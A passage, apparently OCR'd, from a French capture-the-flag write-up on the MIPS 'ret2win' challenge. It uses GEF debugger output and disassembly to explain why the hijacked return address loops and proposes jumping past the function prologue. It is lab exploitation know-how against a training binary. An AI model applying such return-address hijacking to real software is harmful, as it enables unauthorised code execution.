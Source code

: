     GEF> b *pwnme+260

AU moment du retour de pwnme :

     0x4009ec <pwnme+248>      lw     ra, 60(sp)
     0x4009f0 <pwnme+252>      lw     s8, 56(sp)
     0x4009f4 <pwnme+256>      addiu  sp, sp, 64
     0x4009f8 <pwnme+260>      jr     ra
    ↳   0x400a00 <ret2win+0>      addiu  sp, sp, -32
        0x400a04 <ret2win+4>      sw     ra, 28(sp)
        0x400a08 <ret2win+8>      sw     s8, 24(sp)

Notre regitre ra est positionné à l'adresse de ret2win

    gef➤  i r ra
    ra: 0x400a00

Mais l'entrée dans la fonction ne se faisant pas par l'instruction jal.
ra n'est pas mis à jour et au ret de ret2win on reboucle.

    gef➤  disas ret2win
    Dump of assembler code for function ret2win:
    0x00400a00 <+0>:	addiu	sp,sp,-32
    0x00400a04 <+4>:	sw	ra,28(sp)
    0x00400a08 <+8>:	sw	s8,24(sp)
    0x00400a0c <+12>:	move	s8,sp
    0x00400a10 <+16>:	lui	gp,0x42
    0x00400a14 <+20>:	addiu	gp,gp,-28656
    0x00400a18 <+24>:	sw	gp,16(sp)
    0x00400a1c <+28>:	lui	v0,0x40
    0x00400a20 <+32>:	addiu	a0,v0,3452
    0x00400a24 <+36>:	lw	v0,-32680(gp)
    0x00400a28 <+40>:	move	t9,v0
    0x00400a2c <+44>:	jalr	t9
    0x00400a30 <+48>:	nop
    0x00400a34 <+52>:	lw	gp,16(s8)
    0x00400a38 <+56>:	lui	v0,0x40
    0x00400a3c <+60>:	addiu	a0,v0,3484
    0x00400a40 <+64>:	lw	v0,-32684(gp)
    0x00400a44 <+68>:	move	t9,v0
    0x00400a48 <+72>:	jalr	t9
    0x00400a4c <+76>:	nop
    0x00400a50 <+80>:	lw	gp,16(s8)
    0x00400a54 <+84>:	nop
    0x00400a58 <+88>:	move	sp,s8
    0x00400a5c <+92>:	lw	ra,28(sp)
    0x00400a60 <+96>:	lw	s8,24(sp)
    0x00400a64 <+100>:	addiu	sp,sp,32
    0x00400a68 <+104>:	jr	ra
    0x00400a6c <+108>:	nop
    End of assembler dump.

Si on saute plutôt sur l'adresse `0x00400a08`

    0x00400a00 <+0>:	addiu	sp,sp,-32
    0x00400a04 <+4>:	sw	ra,28(sp)
 => 0x00400a08 <+8>:	sw	s8,24(sp)
